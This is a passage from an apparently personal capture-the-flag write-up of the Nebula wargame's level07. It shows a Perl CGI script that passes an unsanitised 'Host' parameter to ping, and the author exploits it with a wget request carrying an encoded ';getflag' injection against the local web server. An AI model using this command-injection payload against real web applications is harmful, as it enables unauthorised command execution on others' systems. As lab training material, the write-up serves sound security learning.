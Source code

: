 ```terminal
# Specifies a P3P server privacy header to be returned with all responses. See
# http://www.w3.org/P3P/ for details. Thttpd doesn't do anything at all with the
# string except put it in the P3P: response header.
#p3p=

# Specifies the number of seconds to be used in a "Cache-Control: max-age"
# header to be returned with all responses. An equivalent "Expires" header is
# also generated. The default is no Cache-Control or Expires headers, which is
# just fine for most sites.
#max_age=
level07@nebula:/home/flag07$
```

index.cgi informations:

- ping(param("Host")); ⇒ We have to provide a GET parameter called "Host" to out request to index.cgi perl script.
- @output = ping -c 3 $host 2>&1; ⇒ The GET parameter "Host" is used without any sanitisation checks directly at this line in $host.

⇒ Command Injection! But where?

thttpd.conf informations:

- /etc/thttpd/thttpd.conf: thttpd configuration file ⇒ The config file of our web server (thttpd)!
- port=7007 ⇒ The port where our web server is listening!
- cgipat=**.cgi ⇒ Is interpreting perl scripts! This is getting so easy…​ I just need…​
- user=flag07 ⇒ The web service is running with our target account! 

⇒ We have to inject getflag for our webserver on port 7007 using index.cgi (the perl script).

Let’s do it!!!

```terminal
level07@nebula:/home/flag07$ wget http://127.0.0.1:7007/index.cgi?Host=%3Bgetflag
--2017-10-06 04:25:18--  http://127.0.0.1:7007/index.cgi?Host=%3Bgetflag
Connecting to 127.0.0.1:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
index.cgi?Host=;getflag: Permission denied

Cannot write to `index.cgi?Host=;getflag' (Permission denied).
level07@nebula:/home/flag07$
```

Well in the above command I am using wget (Web Get) to retrieve the response in html from my web server on localhost port 7007. But, I am trying to write in the wrong folder. The grand final:

```terminal
level07@nebula:/home/flag07$ cd ~
level07@nebula:~$ wget http://127.0.0.1:7007/index.cgi?Host=%3Bgetflag
--2017-10-24 07:40:31--  http://127.0.0.1:7007/index.cgi?Host=%3Bgetflag
Connecting to 127.0.0.1:7007... connected.
HTTP request sent, awaiting response... 200 OK
Length: unspecified [text/html]
Saving to: `index.cgi?Host=;getflag'

    [ <=>                                                                                                                                                               ] 136         --.-K/s   in 0.006s

2017-10-24 07:40:31 (22.7 KB/s) - `index.cgi?Host=;getflag' saved [136]

level07@nebula:~$ ls -al
total 11
drwxr-x--- 1 level07 level07   80 Oct 24 07:40 .
drwxr-xr-x 1 root    root      80 Aug 27  2012 ..
-rw-r--r-- 1 level07 level07  220 May 18  2011 .bash_logout
```